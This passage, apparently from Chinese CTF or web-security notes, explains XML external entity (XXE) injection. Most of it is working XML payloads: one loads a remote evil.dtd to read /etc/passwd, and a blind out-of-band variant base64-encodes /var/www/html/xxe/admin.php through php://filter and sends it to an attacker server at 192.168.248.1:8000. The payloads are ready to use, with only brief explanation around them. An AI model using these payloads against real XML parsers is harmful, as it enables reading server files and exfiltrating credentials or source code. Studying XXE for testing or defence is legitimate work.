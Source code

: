 ![](images/ctf-2021-06-18-15-24-33.png)

（2）将外部实体引用的 URL 设置到本地服务器，本地构建恶意 dtd 文件，远程注入


```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>

外部 evil.dtd 中的内容：
<!ENTITY evil SYSTEM "file:///etc/passwd" >
```

### 无回显

可以使用外带数据通道提取数据，先使用 filter:/// 获取目标文件的内容，然后将内容以 http 请求发送到接收数据的服务器（攻击服务器）。实体 remote，all，send 的引用顺序很重要，首先对 remote 引用的目的是将外部文件 evil.xml 引入到解释上下文中，然后执行 %all，这时会检测到 send 实体，在 root 节点中引用 send，就可以成功实现数据转发

 第一种

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.248.1/evil.dtd">
%remote;%int;%send;
]>
<root><name>admin2</name><password>admin &xxe;</password></root>
```

evil.dtd 的内容，注意`&#37`不是乱码，就是这样写。

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/html/xxe/admin.php">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.248.1:8000?p=%file;'>">
```
